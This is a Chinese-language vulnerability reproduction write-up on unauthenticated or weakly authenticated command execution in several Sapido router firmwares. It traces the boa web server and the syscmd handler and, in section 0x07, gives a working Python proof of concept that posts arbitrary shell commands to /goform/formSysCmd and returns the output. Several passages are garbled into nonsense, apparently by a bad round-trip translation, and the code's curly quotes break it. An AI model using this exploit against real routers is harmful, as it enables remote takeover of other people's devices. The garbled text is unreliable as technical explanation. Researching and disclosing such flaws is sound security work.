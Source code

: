 ```yaml
---
title: "Sapido多款路由器命令执行漏洞&突破"
id: zhfly3400
---
```


# Sapido多款路由器命令执行漏洞&突破

# 一、漏洞简介

## 二、漏洞影响

BR270n-v2.1.03

BRC76n-v2.1.03

GR297-v2.1.3

RB1732-v2.0.43

之前的版本存在命令执行漏洞

## 三、复现过程

### 0x01 固件环境模拟

![image](../img/4d08f3f8844296b47a94b326667219d0.png)

### 0x02 binwalk解压固件

![image](../img/cf2f09a9f7904b6f07dcfdecde3eb0be.png)

![image](../img/db5972e90ba09dfd10b1e75be39b30e8.png)

### 0x03 查看web容器

![image](../img/3c5264ae3120487aa7388b84e8f213f0.png)

对于嵌入式设备而言，很多服务都是移植开源的，`/etc/init.d`文件夹下是路由器启动时的加载项，在这些文件中可以看到很多的启动服务等，但是在这里我没有发现`web`容器的启动项，猜测可能厂商进行了二次开发

### 0x04 查找http服务模块

![image](../img/e4ae4ea2829fe1017a4569d44fd083f5.png)

在这里可以看到很多关于`http`的，我们不去关注`web`网页出现的。因为我们想要知道这款路由器的`web`容器是其中，所以我们把重点放在前面的`elf`文件处，在这里我们看到一个`cm`的`elf`文件，如果知道开源的`web`服务器`boa`可能猜到一些，下面就是`boa`的架构

![image](../img/bb8fb6f39147be7ce6d3701a1b62d099.png)

可以这里清晰的看到`web`层的英文如何状语从句：底层通过`boa`进行交互的。那么对于不知道的容器我们又该如何去分析呢？继续我们去分析剩下的`elf`程序，名字通过逐个状语从句：我们分析在`sysconf`程序中发现了`http`请求的处理方式，使用`ghidra`来分析`sysconf`

![image](../img/3f95540092a24766f5b226fa0f646d21.png)

通过全文搜索定位`http`到关键函数，在这里我们发现了一个关键的函数`apmib_get`通过猜测也能大概猜到这是一个关于获取的函数，通过`google`可以搜索到这个函数，会发现这个函数是关于`web`开源服务器的`boa`用到的函数，到那么这里我们就已经确认这款路由器的`web`容器的英文`boa`了。既然已经知道了`boa`，肯定那么这个知道有框架一个关键的文件`syscmd.htm`文件，可以执行系统命令，由于但是这款路由器的英文`asp`写的所以我们只进行检索`syscmd`

![image](../img/4c1f3b4e8603ac25c994ea7940911a6f.png)

这里可以发现两个文件，一个`elf`文件，一个`asp`文件，打开`asp`文件

![image](../img/d356097764142a977c0c60b6b551610a.png)

在这里可以抛光页面可以执行系统命令

### 0x05 通过url访问指定页面

![image](../img/bae12372b8490abbd3afe039e3764a64.png)

发现可以执行系统命令，那么这里又是如何处理的呢？

通过上面的`asp`文件可以知道，对于输入的命令处理应该和`formSysCmd`有关联，这里我们进行`grep`搜索

![image](../img/b7fe53d1cb34cb2aca9e4636211c39e9.png)

可以看到一个`webs`的`elf`文件，那么可以猜测这里可能就是`syscmd`执行的临时文件了

### 0x06 分析webs文件

![image](../img/7c8612f6069972dfd8f418fd6e59d028.png)

![image](../img/23d97c58cd9d29108f9bbfabc482f62a.png)

上面就是整个命令执行的逐步实现方式了，第一个图片可以看到使用`system`函数执行输入的系统命令，第二个图片可以裁剪将执行的结果通过`cat`输入到`/web/obama.dat`文件中，最后将`obama.dat`中的内容输入到`web`界面的文本框里。

### 0x07 poc

```
# Exploit title: "SAPIDO RB-1732 command line execution"
# Date: 2019-6-24
# Exploit Author: k1nm3n.aotoi
# Vendor Homepage: http://www.sapido.com.tw/
# Software Link: http://www.sapido.com.tw/CH/data/Download/firmware/rb1732/tc/RB-1732_TC_v2.0.43.bin
# Version: RB-1732 V2.0.43 
# Tested on: linux

import requests

import sys

def test_httpcommand(ip, command):

my_data = {‘sysCmd’: command, ‘apply’: ‘Apply’, ‘submit-url’:’/syscmd.asp’, ‘msg’:’’}

r = requests.post(‘http://%s/goform/formSysCmd’ % ip, data = my_data)

content = r.text

content = content[

content.find(’<textarea rows=“15” name=“msg” cols=“80” wrap=“virtual”>’)+56:

content.rfind(’</textarea>’)]

return content

print test_httpcommand(sys.argv[1], " ".join(sys.argv[2:])) 
```

### 0x08 运行截图

![image](../img/8d2a79eeeab72698343d8f6a3b9eab33.png)

### 0x09 BR270n-v2.1.03命令执行突破

这个原理和RB1732差不多，只不过访问的页面变成了`syscmd.htm`了

![image](../img/cd26c4c05fe7cb3e12db463142ab07bb.png)

### 0x010 BRC76n-v2.1.03命令执行漏洞

![image](../img/a02e706e869f111c5d63049bf6910bd9.png)

### 0x011 GR297-v2.1.3命令执行漏洞

![image](../img/def3a4fc7e376858378cd14c789bfc71.png)

### 0x012 总结

BR270n，RB1732命令执行有个重置就是登陆路由器，可以进行信息的同步获取用户名和密码，而且又有很多路由器使用的还是其他用户名和密码，GR297，BRC76n则不需要进行登陆

## 参考链接

> [http://lab.xinruisec.com/2019/09/05/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/](http://lab.xinruisec.com/2019/09/05/Sapido%E5%A4%9A%E6%AC%BE%E8%B7%AF%E7%94%B1%E5%99%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/)